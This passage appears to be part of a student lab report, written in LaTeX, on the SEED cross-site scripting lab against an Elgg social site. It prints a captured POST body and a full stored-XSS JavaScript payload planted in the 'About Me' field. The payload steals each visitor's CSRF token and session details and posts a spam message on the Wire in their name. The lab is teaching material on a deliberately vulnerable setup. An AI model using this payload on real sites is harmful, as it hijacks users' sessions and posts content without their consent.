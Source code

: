 \documentclass[12pt]{article}
\begin{document}
The request body has this content:

\begin{verbatim}
__elgg_token=un1KjOAjar7PKPaDSDuDfA&__elgg_ts=1707419569&body=Test Post
\end{verbatim}

    \begin{figure}[H]
         \centering
         \includegraphics[width=0.95\textwidth]{Images/ss4.png}
         \caption{POST Request for posing on the Wire}
         \label{fig:ss4}
     \end{figure}

This task is quite similar to the previous one, in fact the request body is way shorter. We place this script in the ``About Me'' section once again:

\begin{verbatim}
<script type="text/javascript">
    window.onload = function () {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var userName = elgg.session.user.username;
        var guid = elgg.session.user.guid;

        var sendurl = "/action/thewire/add";

        // If the user is Samy, then the attack is not performed
        if (guid == 59) return; // User ID of Samy

        var postBody = "To earn 12 USD/Hour(!), visit now\nhttp://www.seed-server.com/profile/samy";

        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('body', postBody);


        var ajax = new XMLHttpRequest();
        ajax.open("POST", sendurl, true);
        ajax.setRequestHeader("Host", "www.seed-server.com");
        ajax.send(formData);
    }
</script>
\end{verbatim}
\end{document}
